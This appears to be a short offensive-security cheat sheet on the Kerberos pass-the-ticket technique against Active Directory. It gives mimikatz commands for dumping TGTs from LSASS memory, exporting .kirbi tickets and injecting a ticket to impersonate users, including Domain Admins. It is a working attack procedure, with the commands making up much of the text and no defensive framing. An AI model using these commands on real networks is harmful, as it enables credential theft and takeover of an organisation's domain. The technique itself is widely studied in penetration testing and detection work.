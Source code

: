 Requirements:
Admin on any AD machine.

##### Overview
Pass the Ticket works by dumping any TGT and TGT present from the machine's LSASS (Local Security Authority Subsystem Service) memory. This is a system that stores AD credentials. 
Dumping the TGT with mimikatz will export a .kirbi ticket, which can be used to gain Domain Admin rights if there is a Domain Admin ticket in the LSASS memory. 
We can use this to impersonate the DA or any other users, and access any resources they have accessed.


##### Mimikatz exploitation
Gaining tickets:
```
./mimikatz.exe // run mimikatz
privilege::debug // If it does not return "[output '20' OK]", It needs to be ran with Admin privileges.
sekurlsa::tickets /export  // Dumps all the .kirbi tickets in LSASS memory to the current directory.
```

Note: the exported tickets usually have this naming scheme:
```
[]
```

Passing obtained tickets:
```
kerberos::ptt TICKET // Load and impersonate the user from TICKET
klist // Get information on loaded ticket
```
Example:
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

Now open a CMD/Powershell shell and we can impersonate the ticket.